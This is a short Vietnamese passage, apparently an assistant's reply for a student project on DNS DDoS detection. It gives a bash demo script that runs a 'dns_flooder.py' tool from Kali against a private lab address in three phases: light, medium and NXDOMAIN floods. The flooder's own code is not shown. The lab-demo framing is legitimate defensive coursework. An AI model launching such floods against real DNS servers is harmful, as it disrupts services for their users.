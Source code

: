### Script Demo tự động:
```bash
#!/bin/bash
# Chạy trên Kali để demo tự động

echo "=== DEMO DNS DDoS Detection ==="
echo "Phase 1: Light attack..."
python3 dns_flooder.py 192.168.85.130 --threads 5 --rate 50 --duration 20

echo "Phase 2: Medium attack..."  
python3 dns_flooder.py 192.168.85.130 --threads 10 --rate 100 --duration 30

echo "Phase 3: NXDOMAIN attack..."
python3 dns_flooder.py 192.168.85.130 --type nxdomain --duration 30

echo "Demo completed. Check dashboard!"
```

Hệ thống này hoàn toàn sẵn sàng cho việc demo và báo cáo đề tài của bạn! 🎯